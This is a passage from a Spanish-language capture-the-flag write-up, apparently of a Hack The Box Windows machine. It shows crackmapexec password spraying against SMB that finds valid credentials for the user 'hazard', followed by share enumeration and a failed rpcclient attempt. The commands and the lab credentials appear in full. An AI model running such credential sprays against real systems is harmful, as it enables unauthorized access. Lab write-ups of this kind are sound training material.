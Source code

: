 - Vemos que tenemos credenciales validas para el usuario hazard.

```bash
➜  content crackmapexec smb 10.129.116.26 -u users.txt -p creds.txt --continue-on-success
SMB         10.129.116.26   445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.129.116.26   445    SUPPORTDESK      [-] SupportDesk\admin:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE
SMB         10.129.116.26   445    SUPPORTDESK      [-] SupportDesk\admin:$uperP@ssword STATUS_LOGON_FAILURE
SMB         10.129.116.26   445    SUPPORTDESK      [-] SupportDesk\admin:stealth1agent STATUS_LOGON_FAILURE
SMB         10.129.116.26   445    SUPPORTDESK      [-] SupportDesk\rout3r:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE
SMB         10.129.116.26   445    SUPPORTDESK      [-] Connection Error: The NETBIOS connection with the remote host timed out.
SMB         10.129.116.26   445    SUPPORTDESK      [-] SupportDesk\rout3r:stealth1agent STATUS_LOGON_FAILURE
SMB         10.129.116.26   445    SUPPORTDESK      [-] SupportDesk\hazard:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE
SMB         10.129.116.26   445    SUPPORTDESK      [-] SupportDesk\hazard:$uperP@ssword STATUS_LOGON_FAILURE
SMB         10.129.116.26   445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent
```

- Tenemos estos recursos compartidos a nivel de red pero no son interesantes.

```bash
➜  content crackmapexec smb 10.129.116.26 -u hazard -p stealth1agent --shares
SMB         10.129.116.26   445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.129.116.26   445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent
SMB         10.129.116.26   445    SUPPORTDESK      [+] Enumerated shares
SMB         10.129.116.26   445    SUPPORTDESK      Share           Permissions     Remark
SMB         10.129.116.26   445    SUPPORTDESK      -----           -----------     ------
SMB         10.129.116.26   445    SUPPORTDESK      ADMIN$                          Remote Admin
SMB         10.129.116.26   445    SUPPORTDESK      C$                              Default share
SMB         10.129.116.26   445    SUPPORTDESK      IPC$            READ            Remote IPC
```

- Vamos a enumerar por `RPC` ya que el puerto esta abierto.

- Pero no podemos.

```bash
➜  content rpcclient -U "hazard%stealth1agent" 10.129.116.26
rpcclient $> enumdomusers
result was NT_STATUS_CONNECTION_DISCONNECTED
```

- Algo que podemos hacer es conectarnos al panel de `login` ya que tenemos credenciales validas.

<p align="center">